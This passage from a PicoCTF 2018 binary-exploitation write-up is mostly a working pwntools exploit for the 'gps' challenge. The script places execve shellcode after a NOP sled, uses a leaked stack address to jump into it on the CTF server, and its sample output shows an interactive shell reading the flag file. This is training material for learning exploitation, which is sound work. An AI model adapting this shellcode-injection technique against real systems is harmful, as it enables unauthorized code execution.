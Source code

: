 ```python
sc += shellcraft.linux.syscall('SYS_execve', 'rdi', 'rsi', 'rdx')

print(enhex(asm(sc)))

payload = b'\x90'*1336 + asm(sc)

#s = process('./gps') # use this to test locally
s = remote("2018shell.picoctf.com", 29035)
s.recvuntil("Current position: 0x")
addr = u64(unhex(s.recvline(keepends=False).zfill(16)), endian='big')

print("Addr: " + hex(addr))

s.recvuntil("> ")
s.sendline(payload)

s.recvuntil("> ")

target = addr + 668 + 0x35;
print("Sending: " + hex(target))
s.sendline(hex(target))

s.interactive()
```

Which, when you use it, looks something like this (it will connect with the shell server by default):

```
$ python gps_exploit.py
48b801010101010101015048b82e63686f2e726901483104244889e76a01fe0c244889e64889f26a3b580f05
[+] Opening connection to 2018shell.picoctf.com on port 29035: Done
Addr: 0x7ffe36399834
Sending: 0x7ffe36399b05
[*] Switching to interactive mode
$ ls
flag.txt
gps
gps.c
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

Now that you've mastered executing shellcode, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.